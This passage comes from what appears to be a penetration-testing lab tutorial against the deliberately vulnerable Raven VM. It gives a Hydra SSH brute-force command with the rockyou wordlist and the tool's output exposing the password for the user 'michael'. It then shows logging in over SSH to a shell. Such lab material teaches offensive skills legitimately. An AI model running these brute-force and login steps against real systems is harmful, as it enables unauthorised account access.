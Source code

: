        sudo hydra -l michael -P /usr/share/wordlists/rockyou.txt.gz -t 4 ssh://$RAVEN_VM_IP

    {{< note respectIndent=false >}}
[The `rockyou` wordlist](https://www.kali.org/tools/wordlists/) used in the brute force attack is pre-packaged with Kali Linux.
{{< /note >}}

1.  Output like the following appears:

    {{< output >}}
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-15 13:13:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.28.128.13:22/
[22][ssh] host: 172.28.128.13   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-15 13:13:37
{{< /output >}}

    The brute force attack was successful, which means that the `michael` Linux user account exists on the target system. The password for the user `michael` was revealed to be `michael`.

## Gaining Initial Access Via SSH

We can use the cracked password to connect to the server via SSH:

1.  From your Kali SSH session in your terminal, initiate an SSH connection to the Raven VM. Replace `$RAVEN_VM_IP` in this command with your Raven VM's IP:

        ssh michael@$RAVEN_VM_IP

1.  The SSH connection shows the host key fingerprint of the Raven VM and asks you to confirm to proceed. Enter `yes` to proceed.

    {{< output >}}
The authenticity of host '172.28.128.13 (172.28.128.13)' can't be established.
ED25519 key fingerprint is SHA256:vBKxJra340AKWuFf1Gc8N3KkutJRQEQTgQbj2XRXG7w.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
{{< /output >}}

1.  The password prompt appears. Enter the password `michael`. The connection is established and a command prompt is shown:

    {{< output >}}
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
michael@Raven:~$
{{< /output >}}
